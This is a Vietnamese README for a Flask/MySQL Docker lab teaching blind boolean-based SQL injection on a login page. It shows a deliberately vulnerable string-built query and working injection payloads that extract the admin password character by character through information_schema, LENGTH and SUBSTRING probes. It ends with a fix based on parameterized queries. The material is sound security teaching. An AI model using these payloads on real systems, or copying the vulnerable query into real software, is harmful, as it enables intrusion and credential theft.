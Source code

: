 # Blind Boolean-based SQLi Lab(Flask + MySQL + Docker)

## Mục tiêu
- Minh họa **Blind Boolean-based SQL Injection** trên **trang đăng nhập**.
- Username cố định `admin`. **Mật khẩu = FLAG** lưu trong DB.
- Ứng dụng **không** hiển thị lỗi SQL; chỉ báo *“Đăng nhập thành công/Thất bại”*.

## Chạy lab
```bash
docker compose up --build
# Mở: http://127.0.0.1:5005/login
```

## Lỗ hổng
Trong `app.py`:
```python
query = (
    "SELECT id FROM users "
    f"WHERE username = '{username}' AND password = '{password}' LIMIT 1"
)
```
`username`, `password` được **nối thẳng** vào câu SQL. Khi nhập `username=admin`, kẻ tấn công chèn SQL trong ô **password**.
- Nếu biểu thức boolean là **TRUE** → truy vấn khớp → **Đăng nhập thành công**.
- Nếu **FALSE** → **Đăng nhập thất bại**.

Đây là đặc trưng của **blind boolean-based** (phân biệt qua hành vi/ UI, không cần thông báo lỗi).

## Khai thác
`username=admin`. Tấn công vào trường **password** bằng cách đóng chuỗi `'` rồi thêm điều kiện:
```
' OR (điều_kiện_boolean) -- -
```
> Câu gốc:
> `... AND password = '<payload>'`
>
> Sau chèn:
> `... AND password = '' OR (điều_kiện) -- -`
>
> Kết quả phụ thuộc TRUE/FALSE của `(điều_kiện)`.

### Kiểm tra kênh TRUE/FALSE
- TRUE:
```
password: ' OR (SELECT 1) -- -
```
- FALSE:
```
password: ' OR (SELECT 0) -- -
```
Quan sát: TRUE → “Đăng nhập thành công”, FALSE → “Đăng nhập thất bại”.

### Kiểm tra tồn tại bảng/cột (nếu cần)
- Bảng `users`:
```
' OR (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database() AND table_name='users')>0 -- -
```
- Cột `password`:
```
' OR (SELECT COUNT(*) FROM information_schema.columns WHERE table_schema=database() AND table_name='users' AND column_name='password')>0 -- -
```

### Dò độ dài FLAG
```
' OR (LENGTH((SELECT password FROM users WHERE username='admin')) > 20) -- -
```
Nếu “thành công” → độ dài > 20 là **TRUE**. Dùng nhị phân để tìm đúng LENGTH.

### Dò từng ký tự (SUBSTRING/ASCII)
Ký tự thứ `i`:
```
' OR (ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'), i, 1 )) > 70) -- -
```
Dùng so sánh `>`/`<`/`=` để suy ra ASCII → ra ký tự.  
Hoặc so sánh trực tiếp:
```
' OR (SUBSTRING((SELECT password FROM users WHERE username='admin'), i, 1 )='F') -- -
```

## Cách vá
- Dùng **prepared statements** / **parameterized queries**:
  ```python
  cur.execute(
      "SELECT id FROM users WHERE username=%s AND password=%s LIMIT 1",
      (username, password)
  )
  ```
- Thêm cơ chế khóa/đếm số lần thử.
- Tránh khác biệt UI rõ rệt giữa TRUE/FALSE.
